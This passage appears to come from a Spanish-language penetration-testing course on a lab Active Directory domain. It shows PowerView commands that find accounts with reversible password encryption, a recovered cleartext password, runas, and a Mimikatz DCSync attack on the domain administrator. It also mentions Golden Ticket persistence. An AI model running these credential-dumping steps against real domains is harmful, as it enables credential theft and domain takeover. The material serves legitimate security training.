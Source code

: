 Podemos ver que una cuenta, `proxyagent`, tiene la opción de cifrado reversible configurada también con PowerView:

### Checking for Reversible Encryption Option using Get-DomainUser

```r
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

Notaremos que la herramienta descifró la contraseña y nos proporcionó el valor en texto claro.

### Displaying the Decrypted Password

```r
cat inlanefreight_hashes.ntds.cleartext 

proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
```

He estado en algunos compromisos donde todas las cuentas de usuario se almacenaban usando cifrado reversible. Algunos clientes pueden hacer esto para poder volcar NTDS y realizar auditorías periódicas de fortaleza de contraseñas sin tener que recurrir al descifrado de contraseñas offline.

Podemos realizar el ataque con Mimikatz también. Usando Mimikatz, debemos apuntar a un usuario específico. Aquí apuntaremos a la cuenta de administrador incorporada. También podríamos apuntar a la cuenta `krbtgt` y usar esto para crear un `Golden Ticket` para persistencia, pero eso está fuera del alcance de este módulo.

También es importante notar que Mimikatz debe ser ejecutado en el contexto del usuario que tiene privilegios DCSync. Podemos utilizar `runas.exe` para lograr esto:

### Using runas.exe

```r
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
Enter the password for INLANEFREIGHT\adunn:
Attempting to start powershell as user "INLANEFREIGHT\adunn" ...
```

Desde la sesión de PowerShell recién abierta, podemos realizar el ataque:

### Performing the Attack with Mimikatz

```r
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
```